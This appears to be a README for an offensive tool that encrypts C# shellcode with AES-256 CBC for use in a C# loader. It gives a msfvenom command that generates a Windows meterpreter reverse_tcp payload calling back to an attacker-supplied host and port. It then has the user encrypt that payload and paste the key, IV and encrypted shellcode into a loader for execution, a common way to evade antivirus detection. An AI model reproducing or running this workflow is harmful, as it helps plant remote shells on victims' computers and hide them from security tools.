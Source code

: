 ## AES256enc.py – AES-256 Encryption 
This script encrypts C# shellcode using AES-256 in CBC mode, ensuring payload confidentiality.  

### Output Format:  
- **AES Key** – Generated AES key in `xx-xx` format for C# integration.  
- **IV (Initialization Vector)** – IV in `xx-xx` format for CBC decryption.  
- **Encrypted Shellcode** – Ready-to-use byte array for C# execution.  

### Installation & Dependencies  
```bash
sudo apt update  
sudo apt install python3-pycryptodome
```

### Usage
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp
```
-  Copy the byte array inside {} from msfvenom output.
Paste it into buf in AES256enc.py.
- run either python script.
```bash
python3 aes256.enc.py
```
Copy the Generated Key, IV, and Encrypted Shellcode and paste them into your C# loader for decryption and execution.
